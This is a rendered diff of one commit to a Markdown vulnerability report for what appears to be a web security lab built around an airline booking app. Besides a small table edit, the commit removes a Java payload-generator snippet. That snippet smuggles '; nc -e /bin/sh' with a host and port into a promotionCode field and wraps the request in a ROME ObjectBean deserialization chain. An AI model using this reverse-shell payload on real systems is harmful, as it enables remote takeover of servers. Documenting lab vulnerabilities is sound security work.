

Before and after one commit to tr1la/WebLab_KTVAirline, a Markdown page: Report/Weblab All Vulnerabilities.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
vault backup: 2026-07-08 11:07:26

````diff
--- a/Report/Weblab All Vulnerabilities.md
+++ b/Report/Weblab All Vulnerabilities.md
@@ -2818,7 +2818,7 @@ flowchart TD
 | ---------------- | ------------------- | ------------------------------------------ |
 | `orderId`        | Numeric             | Không mang shell metacharacter             |
 | `transactionIds` | Parsed integer list | Không mang shell metacharacter             |
-| `promotionCode`  | Kh                  | `buildQrCodeContent()` dùng `NO_PROMOTION` |
+| `promotionCode`  | Not set             | `buildQrCodeContent()` dùng `NO_PROMOTION` |
 
 #### 3.2.5. Draft import / Deserialize source -> sink, còn nguy cơ
 
@@ -2849,18 +2849,6 @@ Getter chain to QR sink:
 public String getQrCode() {
     return new QRCodeHelper().renderQrCode(buildQrCodeContent());
 }
-```
-
-Payload generator source:
-
-```java
-// Payload/ModernRomePayloadGenerator.java
-BookingRequest bookingRequest = new BookingRequest();
-bookingRequest.setTransactionIds(Collections.singletonList(transactionId));
-bookingRequest.setPromotionCode("; nc -e /bin/sh " + host + " " + port + " #");
-
-ObjectBean innerObjectBean = new ObjectBean(BookingRequest.class, bookingRequest);
-ObjectBean outerObjectBean = new ObjectBean(ObjectBean.class, innerObjectBean);
 ```
 
 Sequence:
````
